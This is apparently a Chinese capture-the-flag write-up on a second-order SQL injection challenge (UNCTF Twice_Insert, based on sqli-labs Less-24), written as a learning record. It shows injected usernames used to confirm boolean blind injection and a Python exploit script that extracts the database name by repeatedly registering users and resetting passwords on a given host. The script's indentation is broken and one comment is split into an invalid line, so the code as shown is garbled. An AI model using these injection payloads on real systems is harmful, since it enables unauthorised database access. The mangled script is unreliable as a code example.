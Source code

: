 UNCTF-Twice_Insert
==============

原理分析
----------

题目提示twice-insert，分析是利用二次注入获取admin密码或者是暴库拿flag。

解题过程
----------

1）访问目标主机，打开页面发现是`sqli-labs-24`，原题是利用`二次注入`修改admin密码，这题修改admin密码却没有flag，要想拿到flag可能需要爆库。<br>
2）根据题意，尝试布尔盲注<br>
* 发现`or`被过滤，如此需要换一个思路，因为有注册按钮，尝试注册新用户。<br>

3)注册一个新用户`scl`，password为`1`，然后注册用户`scl’and 1#`（该用户名用于测试注入），password为`1`，用于后面的测试<br>
修改用户`scl’and 1#`的密码为`0`<br>
  ![](./images/4.PNG)
  <br>
修改成功：<br>
  ![](./images/7.PNG)
  <br>
4)将scl的密码重置为`1`：注册新的用户`scl’and 0#`，password为`1`，然后登陆该账号修改密码<br>
  ![](./images/5.PNG)
  <br>
回显如下：<br>
  ![](./images/6.PNG)
  <br>
密码更新失败，说明存在布尔盲注。

编写EXP
--------

写python脚本，通过多次注册用户、修改密码，进行暴库。
```python
#coding = utf-8
import requests
url = "http://183.129.189.60:10003/sqli/Less-24/login_create.php"
url1 = "http://183.129.189.60:10003/sqli/Less-24/login.php"
url2 = "http://183.129.189.60:10003/sqli/Less-24/pass_change.php"
#将密码改回1
def change21():
    user = "scl"
    s = requests.session()
    data = {
        "login_user": user,
        "login_password": '0',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    data = {
        "current_password": '0',
        "password": '1',
        "re_password": '1',
        "submit": 'Reset'
    }
    r = s.post(url2, data)

def second():
    flag = ""
    tmp = 1
    for i in range(1, 50):
        if tmp == 0:
        break
    tmp = 0
    for j in range(32, 127):
        s = requests.session()
    user = "scl'and ascii(substr((select database())," + str(i) + ",1))=" +
        str(j) + "#"
    print user
    # 注册用户名
    data = {
        "username": user,
        "password": '1',
        "re_password": '1',
        "submit": "Register"
    }
    r = s.post(url, data)
    # 登录用户
    data = {
        "login_user": user,
        "login_password": '1',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    # print r.content.decode()
    if "YOU ARE LOGGED IN AS" in r.content.decode():
        print "login ok"
    #
    更改密码
    data = {
        "current_password": '1',
        "password": '0',
        "re_password": '0',
        "submit": 'Reset'
    }
    r = s.post(url2, data)
    if "successfully updated" in r.content.decode():
        flag += chr(j)
    tmp = 1
    print "change ok"
    change21()
    break
    print flag
second()
```

总结
---

这个题目的类型是第一见，在北京联合大学举办的UNCTF里面第一次见到，然后昨天去打web安全的省赛又遇到了（安恒真会省事），当时拿到环境复现了一下，但是由于服务器原因，没有跑出完整的flag，但是是第一次见这类的题，写个题解学习一下。

